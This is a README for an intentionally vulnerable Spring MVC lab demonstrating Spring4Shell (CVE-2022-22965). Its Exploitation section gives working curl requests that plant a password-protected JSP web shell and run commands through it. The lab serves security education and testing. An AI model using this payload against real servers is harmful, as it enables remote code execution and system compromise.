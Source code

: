 # Spring4Shell Demo

This repository contains a simple Spring MVC application that is vulnerable to the **Spring4Shell RCE vulnerability (CVE-2022-22965)**.

This project is for **educational and research purposes only**. Please do not use this code in a production environment.

-----

## What is Spring4Shell?

Spring4Shell is a critical **remote code execution (RCE)** vulnerability in the Spring Framework. The vulnerability was discovered in March 2022 and affects **Spring Core on JDK 9+**. Specifically, it leverages a weakness in the way Spring handles data binding from HTTP requests to Java objects. By sending a specially crafted HTTP request, an attacker can write a malicious JSP file to the web root, which can then be used to execute arbitrary commands on the server.

-----

## Prerequisites

  * Java 9+
  * Maven
  * Docker

-----

## Building and Running the Application

1.  **Build the project using Maven:**

    ```bash
    mvn clean package
    ```

    This will create a `springmvc5-helloworld-example-0.0.1-SNAPSHOT.war` file in the `target` directory.

2.  **Build the Docker image:**

    ```bash
    docker build -t spring4shell-demo .
    ```

3.  **Run the Docker container:**

    ```bash
    docker run -p 8080:8080 spring4shell-demo
    ```

The application will be accessible at `http://localhost:8080/springmvc5-helloworld-example-0.0.1-SNAPSHOT/`.

-----

## Exploitation

The following `curl` command can be used to exploit the vulnerability. This will create a file named `shell.jsp` in the webapp root, which can then be used to execute arbitrary commands.

```bash
curl -X POST -H "Content-Type: application/x-www-form-urlencoded" \
-d 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di' \
'http://localhost:8080/springmvc5-helloworld-example-0.0.1-SNAPSHOT/helloworld'

curl -X POST -H "Content-Type: application/x-www-form-urlencoded" \
-d 'class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp' \
'http://localhost:8080/springmvc5-helloworld-example-0.0.1-SNAPSHOT/helloworld'

curl -X POST -H "Content-Type: application/x-www-form-urlencoded" \
-d 'class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT' \
'http://localhost:8080/springmvc5-helloworld-example-0.0.1-SNAPSHOT/helloworld'

curl -X POST -H "Content-Type: application/x-www-form-urlencoded" \
-d 'class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell' \
'http://localhost:8080/springmvc5-helloworld-example-0.0.1-SNAPSHOT/helloworld'

curl -X POST -H "Content-Type: application/x-www-form-urlencoded" \
-d 'class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=' \
'http://localhost:8080/springmvc5-helloworld-example-0.0.1-SNAPSHOT/helloworld'
```

After running these commands, you can execute commands by visiting the following URL in your browser:

`http://localhost:8080/shell.jsp?pwd=j&cmd=<your_command>`

For example, to list the files in the current directory:

`http://localhost:8080/shell.jsp?pwd=j&cmd=ls`

-----

## Disclaimer

This code is for **educational and research purposes only**. The author is not responsible for any misuse of this code.

